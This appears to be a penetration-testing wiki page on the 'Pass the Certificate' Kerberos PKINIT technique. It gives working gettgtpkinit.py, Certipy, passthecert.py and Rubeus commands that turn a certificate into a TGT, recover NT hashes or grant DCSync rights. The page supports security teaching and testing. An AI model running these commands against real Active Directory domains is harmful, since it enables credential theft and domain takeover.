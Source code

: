 # Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../adcs/index) and [UnPAC-the-hash attacks](unpac-the-hash.md).

> [!TIP]
> Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.
> 
> The "certificate + private key" pair is usually used in the following manner
> 
> * PEM certificate + PEM private key
> * PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, [Dirk-jan](https://twitter.com/_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.


```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```


Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.


```bash
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```


Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.


```bash
certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
```


The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

> [!TIP]
> When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the TGT obtained.

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](../credentials/dumping/dcsync.md) or change password for a specific user.

```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
```


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```powershell
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

> [!TIP]
> PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.
> 
> ```bash
> openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
> ```

> [!TIP]
> Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.
> 
> ```bash
> openssl rsa -inform DER -in key.key -out key-pem.key
> openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
> openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
> ```

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.

:::

